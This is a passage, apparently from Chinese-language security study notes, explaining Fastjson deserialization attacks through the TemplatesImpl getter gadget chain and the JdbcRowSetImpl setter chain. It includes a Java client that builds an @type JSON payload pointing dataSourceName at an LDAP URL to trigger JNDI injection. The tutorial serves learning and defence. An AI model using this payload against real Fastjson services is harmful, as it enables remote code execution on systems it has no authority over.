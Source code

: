 然后再对`_class[_transletIndex] `进行实例化(newInstance()) 即可加载恶意构造函数

### getter gadget链路
当反序列化com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 类时，由于`_outputProperties` 属性是Map属性，且该属性只有getter方法，没有setter方法，因此会有如下的调用链
`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties() => new Transformer() => getTranslateInstance() => defineTransletClasses()`，到了这里，会读取`_bytecodes[]`属性中的字节码，然后在判断是否是继承于AbstractTranslet类

![image.png](./fastJson反序列化原理及利用.assets/2023_05_19_16_10_39_kqE9DeZl.png)

最后调用newInstance()方法实例化该类的对象，该方法是调用该类的缺省构造函数实例化对象
虽然上面的测试代码给_byteCodes 属性传入的字节码是经过base64编码的，但是在defineTransletClasses()方法中加载字节码之前，在`com.alibaba.fastjson.parser.JSONScanner.bytesValue()`方法中，已经将其解码了

### 通过setter方法触发gadget
我们使用JdbcRowSetImpl 类，这里用的就是JDNI注入，具体可以看[JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链](https://www.yuque.com/aaronluo-thco0/secnotes/fxpgwc)
这里我简单写一下客户端的代码
```java
package com.aaron.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class TemplatesImplTest {
    public static void main(String[] args)throws Exception {
        String className = "com.sun.rowset.JdbcRowSetImpl";
        String ldapPath = "ldap://127.0.0.1:1389/aa";
        String json = "{\"@type\":\""+className+"\" ,"+
                "\"dataSourceName\":\""+ldapPath+"\","+
                "\"autoCommit\":true"+
                "}";
        System.out.println(json);
        JSON.parse(json, Feature.SupportNonPublicField);
    }
}

```